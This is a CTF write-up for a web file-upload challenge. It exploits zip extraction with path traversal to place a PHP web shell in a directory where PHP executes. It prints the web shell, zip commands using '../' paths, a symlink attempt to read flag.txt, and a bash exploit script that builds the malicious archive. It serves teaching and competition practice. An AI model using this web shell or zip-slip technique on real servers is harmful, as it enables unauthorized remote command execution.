





# Our Christmas wishlist (Web)

Hi CTF player. If you have any questions about the writeup or challenge. Submit a issue and I will try to help you understand.

Also I might be wrong on some things. Enjoy :)

(P.S Check out my [CTF cheat sheet](https://github.com/flawwan/CTF-Candy))



This is another file upload challenge where we can upload files.




* There are no limits on the extension. Any extension is OK.
* PHP execution is turned off in the folder
* .htaccess files are also disabled

Hmmm if we can't upload a php file, we can't get shell. Simple as that.

Playing around with it, I noticed in the challenge description that you can upload zip files.



Cool it extracted the files. This is unusual behavior. How can we exploit this?

Create a `shell.php` with a backdoor system command in it. The file also has to be 2000 bytes or else the upload refused to unzip the file. We pad with random numbers to get the exact filesize.

```
<?php
system($_GET["cmd"]);
?>
12341234123012304230412043012034012302341234213412341234123423423232344
12341231231112312321312123123231213231212313123123123123123132123123123123123123123123123123123123
12321312123123231213231212313123123123123123132123123123123123123123123123123123123
12321312123123231213231212313123123123123123132123123123123123123123123123123123123
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
```

What if we upload a relative file.

* `$ zip payload.zip ../shell2.php`

We can now access the file at /uploads/shell.php instead of /uploads/random_hash/shell.php.

The file still only downloads which means the server never executes the php code, just sends the file back to the user.

I tried to upload a file to the root directory:

* `$ zip payload.zip ../../shell2.php`

And got an error message. We probably do not have permission to write there.

Hmm back to the drawing board. I also tried to upload symbolic links, but that didn't work either.
```bash
$ ln -s ../../flag.txt test.txt
$ zip --symlinks symbolic.zip test.txt
```

The output was just `../../flag.txt`.

Back to the first plan.

Looking back at the source I noticed the images are placed inside the img folder.



Maybe we can write to that directory.



Exploit script:
```bash
#!/bin/bash
mkdir ./down
mkdir ./down/down
mkdir ./img
cp shell2.php ./img/shell2.php
cd ./down/down/
zip win.zip ../../img/shell2.php
cd ../../
mv ./down/down/win.zip .
rm -rf down
rm -rf img


echo "You can now upload win.zip"
```
